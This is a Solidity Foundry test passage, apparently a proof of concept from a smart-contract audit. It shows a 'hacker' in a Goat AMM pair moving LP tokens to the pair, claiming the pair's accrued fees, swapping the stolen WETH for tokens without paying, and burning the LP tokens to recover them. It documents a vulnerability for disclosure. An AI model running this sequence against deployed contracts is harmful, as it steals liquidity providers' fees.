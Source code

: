 ```solidity=
        console.log("the fees unclaimed by the initial LP:", pair.earned(users.lp));
        
        //the hacker withdraws his fees
        vm.startPrank(hacker);
        console.log("fees unclaimed by hacker:", pair.earned(hacker));

        pair.withdrawFees(hacker);
        console.log("fee received by hacker:", weth.balanceOf(hacker) - hackerInitialWethBalance);

        // Transfer LPs to pair itself
        pair.transfer(address(pair), hackerInitialLpBalance);

        console.log("amount of pending liquidity fees:", pair.getPendingLiquidityFees());
        //the hacker withdraws the fees of the pair
        uint256 feesUnclaimedByPair = pair.earned(address(pair));
        console.log("fees unclaimed by the pair:", pair.earned(address(pair)));
        pair.withdrawFees(address(pair));
        console.log("amount of pending liquidity fees after withdrawing fees by the pair", pair.getPendingLiquidityFees());

        //get hacker tocken amount:
        {
            uint256 hackerTokenBalanceBefore = goat.balanceOf(hacker);
            uint256 hackerWethBalanceBefore = weth.balanceOf(hacker);
            console.log("hacker token balance before:", hackerTokenBalanceBefore);
            console.log("hacker weth balance before:", hackerWethBalanceBefore);

            // hacker swaps the stolen weth fee to Tokens.
            (uint wethReserveBefore, uint tokenReserveBefore) = pair.getReserves();
            uint amountTokenOut = GoatLibrary.getTokenAmountOutAmm(
                feesUnclaimedByPair,
                wethReserveBefore,
            tokenReserveBefore 
            );

            pair.swap(amountTokenOut, 0, hacker);
            
            console.log("hacker token balance after swap:", goat.balanceOf(hacker));
            console.log("hacker weth balance after swap:", weth.balanceOf(hacker));

            //asseting that the hacker got tokens out of the swap, without providing any weth to the pair
            assert(hackerTokenBalanceBefore < goat.balanceOf(hacker));
            assert(hackerWethBalanceBefore == weth.balanceOf(hacker));

            //the hacker burns the lpTokens transfered to the pair so he loses nothing
            pair.burn(hacker);

            vm.stopPrank();
        }
```

